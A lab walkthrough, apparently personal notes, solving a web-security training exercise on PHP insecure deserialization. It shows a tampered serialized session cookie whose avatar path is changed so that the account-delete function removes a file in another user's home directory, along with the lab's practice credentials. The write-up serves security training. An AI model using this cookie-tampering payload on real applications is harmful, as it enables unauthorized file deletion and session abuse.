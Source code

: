 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

You also have access to a backup account: `gregg:rosebud`

# Recon

The serialized session cookie is obtained after a successful login

![[serialized-cookie.png]]

# Vuln assessment

The session cookie seems to be an url and base64 encoded PHP object:

![[serialized-object.png]]

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"v1zp5e8nm9xi1uo2wt9ztza9c9ty5r3x";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

The object seems to contain the path to the user's avatar picture.

![[attack-object.png]]

The application also has a functionality to delete the user's account 

![[delete-account-funct.png]]

When setting an avatar it is available in:

```
https://0aef0053037b5d21800385cb0020000a.web-security-academy.net/avatar?avatar=gregg
```

When trying to delete the account setting the path to the image:

```
/home/carlos/morale.txt
```

The following error appears:

![[error-home-carlos.png]]

# Exploitation

Let's try with `users/carlos/morale.txt`

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"jg6n12pmydmgsmyr7t0ngb46aqrwzlo3";s:11:"avatar_link";s:18:"users/carlos/morale.txt";}
```

REMEMBER to update the string length in the serialized object when replacing the string with the target file path:

```
s:23:"/home/carlos/morale.txt"
```

The full attack object is:

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"jg6n12pmydmgsmyr7t0ngb46aqrwzlo3";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Base64 and URL encode it, replace the session cookie with the result and sending the request will solve the lab.

![[exploited 1.png]]
